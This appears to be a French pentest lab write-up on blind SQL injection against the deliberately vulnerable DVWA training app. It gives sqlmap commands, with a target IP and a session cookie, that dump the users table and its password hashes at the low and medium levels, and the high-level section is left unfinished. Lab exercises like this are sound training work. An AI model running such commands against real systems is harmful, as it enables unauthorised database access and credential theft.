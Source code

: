 # 1. SQL - Blind

## 1.1 Premier niveau - low

Nous allons utiliser SQLMAP pour trouver les bases de données et les afficher.  
Le principe est le même que pour les autres injections.

Voici la commande utilisée :

```bash
sqlmap -u "http://34.163.97.167/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=bnk7pa0fohd54o1l6orc5624ko; security=low" --banner --current-user --current-db --is-dba --tables --columns --dump --fresh-queries
```

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\9.png?msec=1736352746941)

SQLMAP identifie la base de données et en extrait des informations.

### Extraction de la table `users`

Pour afficher la base de données des utilisateurs et leurs mots de passe, nous utilisons les paramètres `-T` et `-D` :

```bash
sqlmap -u "http://34.163.97.167/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=bnk7pa0fohd54o1l6orc5624ko; security=low" --banner --current-user --current-db --is-dba --tables --columns --dump -T users -D dvwa
```

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\10.png?msec=1736352746935)

Les utilisateurs et leurs mots de passe hashés sont extraits. Pour gagner du temps, nous ne déchiffrons pas les mots de passe ici, car ils ont déjà été récupérés précédemment.

---

## 1.2 Deuxième niveau - medium

Nous utilisons Burp Suite pour capturer la requête `POST` :

![images](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\11.png?msec=1736352746951)

### Identification des vulnérabilités

Nous utilisons la commande suivante pour exploiter la requête enregistrée dans un fichier `post.txt` :

```bash
sqlmap -r post.txt -p id
```

Le paramètre à injecter est `id`, comme indiqué dans la requête interceptée. SQLMAP identifie deux types de vulnérabilités :

- **Boolean-based blind**  
- **Time-based blind**

![images](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\12.png?msec=1736352746938)

### Extraction des données

Nous réutilisons les mêmes paramètres pour extraire les utilisateurs et leurs mots de passe :

```bash
sqlmap -r post.txt -p id --dump -T users -D dvwa
```

---

## 1.3 Troisième niveau - high

(À compléter)
